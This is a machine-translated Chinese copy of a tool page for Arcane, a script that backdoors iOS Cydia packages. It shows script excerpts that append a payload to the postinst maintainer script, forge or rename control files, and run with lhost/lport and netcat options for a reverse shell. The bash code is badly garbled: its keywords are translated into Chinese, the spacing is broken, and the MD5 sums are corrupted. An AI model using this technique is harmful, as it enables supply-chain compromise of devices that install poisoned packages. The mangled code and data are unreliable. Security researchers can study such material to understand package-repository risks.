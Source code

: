 # 奥术:一个简单的脚本，设计来后门 iOS 包

> 原文：<https://kalilinuxtutorials.com/arcane/>

[![Arcane : A Simple Script Designed To Backdoor iOS Packages](img/6b7c1e520517abf399ffd7fd66b330a3.png "Arcane : A Simple Script Designed To Backdoor iOS Packages")](https://1.bp.blogspot.com/-AEnjv7QM0ZE/XzqQVifLfbI/AAAAAAAAHWA/ZWriJSPru9MTAvJK8XYFJY8ZEKmqwkuywCLcBGAsYHQ/s1018/Arcane.gif)

Arcane 是一个简单的脚本，旨在后门 iOS 包(iphone-arm)并为 APT 库创建必要的资源。它是为[这份出版物](https://null-byte.com/a-0325421/)创建的，以帮助说明为什么 Cydia 库可能是危险的，以及来自被入侵的 iOS 设备的可能的利用后攻击。

奥术是如何工作的？

要理解 GIF 中发生了什么，解压用 Arcane 创建的包。

**dpkg-deb-r/tmp/Cydia/whois _ 5 . 3 . 2-1 _ iphone OS-arm _ backdoor . deb/tmp/whois-decomp**

注意在`DEBIAN`目录中的`**control**`和`**postinst**`文件。这两个文件都很重要。

**tree/tmp/whois-decomp/

/tmp/whois-decomp/**
├──debian
│├──control
│└──postinst
└──usr
└──bin
└──whois

安装或删除应用程序时，可以将脚本作为软件包的一部分提供。[包维护者脚本](https://www.debian.org/doc/debian-policy/ch-maintainerscripts.html)包括 [preinst、postinst、prerm 和 postrm](https://wiki.debian.org/MaintainerScripts) 文件。Arcane 利用`postinst`文件在安装过程中执行命令。

**#安装后文件。该文件通常负责在安装所需文件后在操作系统上执行命令。开发人员利用它来管理和维护安装的各个方面。Arcane 通过在文件中附加恶意的 Bash 命令来滥用这个功能。**
postinst = " $ tmp/DEBIAN/postinst "；
**#一个处理嵌入到 postinst 文件中的命令执行类型的函数。**
函数 inject_backdoor ()
{
#如果使用–file，`cat`将命令放入 postinst 文件。
if[[" $ infile "]]；然后
猫" $ infile ">>" $ postinst "；
embed = "[$ infile]"；
否则
#如果没有–文件，则使用简单的 Bash 有效负载，如前面的
#所定义。
echo-e " $ payload ">>" $ postinst "；
embed= "通用 shell 命令"；
fi；
状态“embedded $embed into postinst”“嵌入后门出错”；chmod 0755 " $ postinst "
}；

[控制](https://www.debian.org/doc/debian-policy/ch-controlfields.html)文件包含包管理工具在安装包时使用的值。奥术要么修改现有的`control`要么创造它。

**#的“控制”文件模板。大多数 iOS 包都会包含一个控制文件。如果找不到，奥术将使用下面的模板。这里使用了`$hacker`变量来占据各种任意字段。**
**#**
control temp = " Package:com。$hacker.backdoor
名称:$hacker backdoor
版本:1337
版块:app
架构:iphoneos-arm
描述:一个被后门的 iOS 包
作者:$ hacker[https://$ hacker . github . io/](https://$hacker.github.io/)
维护者:$ hacker[https://$ hacker . github . io/](https://$hacker.github.io/)"；
…………..
**#一个`if`语句来检查控制文件。**
如果[[！-f " $ tmp/DEBIAN/control "]]；然后
#如果没有检测到控件，使用模板创建它。
echo " $ control temp ">" $ tmp/DEBIAN/control "；
状态“已创建控制文件”“控制模板出错”；如果一个控制文件存在，Arcane 将简单地重命名这个包
#就像它出现在可用的 Cydia 应用程序列表中一样。此
#使包裹更容易在 Cydia 中定位。
msg“检测到的控制文件”succ'0,/^Name:.战略与经济对话*/s//Name:$ hacker back door/' " $ tmp/DEBIAN/control "；
状态“修改控制文件”“控制出错”；
fi；

**用途**

在 Kali v2020.3 中克隆存储库。

#sudo apt-get 更新；sudo apt-get install-Vy bzip2 netcat-traditional dpkg coreutils # dependencies
# sudo git clone https://github.com/tokyoneon/arcane/opt/arcane
# sudo chown $ USER:$ USER-R/opt/arcane/；CD/opt/arcane
# chmod+x arcane . sh；。/arcane . sh–救命

将命令嵌入给定的包中。更多信息见文章。

。/arcane . sh–输入样本/sed _ 4.5-1 _ iphone OS-arm . deb–lhost–lport<4444>–cy dia–netcat

**包装样品**

回购包括用于测试的包。

#ls 样本/
# rw-r-r–1 根 100748 年 7 月 17 日 18:39 libpt-pkg-dev _ 1 . 8 . 2 . 1-1 _ iphone OS-arm . deb
# rw-r–1 根 142520 年 7 月 22 日 06:21 network-cmds _ 543-1 _ iphone OS-arm . deb
# rw-r–1 根

MD5 总和，在官方 Bingner 存储库中找到。

# MD5 sum samples/* . deb
t1]3f 1712964701580 B3 f 0188305 a55 和 217 c samples/libpt-pkg-dev _ 1 . 8 . 2 . 1-1 _ iphone OS arm . deb
795 CCF 9c 6d 53 DD 60 D2 f74 F7 a 601 f samples/network-cmds _ 543-1 _ iphone OS arm . deb]

[**Download**](https://github.com/tokyoneon/Arcane)